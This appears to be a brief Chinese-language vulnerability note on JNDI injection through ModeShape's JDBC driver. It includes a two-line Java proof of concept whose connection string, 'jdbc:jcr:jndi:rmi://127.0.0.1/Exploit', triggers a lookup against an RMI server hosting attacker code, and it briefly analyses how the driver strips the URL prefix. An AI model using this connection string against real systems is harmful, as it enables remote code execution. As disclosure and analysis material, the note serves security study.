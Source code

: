 ```xml
<dependency>
    <groupId>org.modeshape</groupId>
    <artifactId>modeshape-jdbc</artifactId>
    <version>5.4.1.Final</version>
</dependency>
```

ModeShape是一个分层的、事务性的、一致的数据存储，支持查询、全文搜索、事件、版本管理、引用以及灵活和动态的模式。它非常快速、高度可用、极具可扩展性，而且它是100%开源的，用Java编写。客户端使用（JSR-283）标准的内容库（又称JCR）的Java API或ModeShape的REST API，并可以通过JDBC和SQL查询内容。

ModeShape是JCR(Java Content Repository)的一个实现，使用JCR API来访问其他系统的数据，如文件系统、Subversion、JDBC元数据。

## 利用方法

依赖

```

```



```java
Class.forName("org.modeshape.jdbc.LocalJcrDriver");
DriverManager.getConnection("jdbc:jcr:jndi:rmi://127.0.0.1/Exploit");
```

## 简单分析

在org.modeshape.jdbc.delegate.LocalRepositoryDelegate#initRepository中

当调用this.getConnectionInfo时

![](img/1.png)

这里会去除前缀，之后很明显的jndi特征不必多说了

![](img/2.png)![](img/3.png)
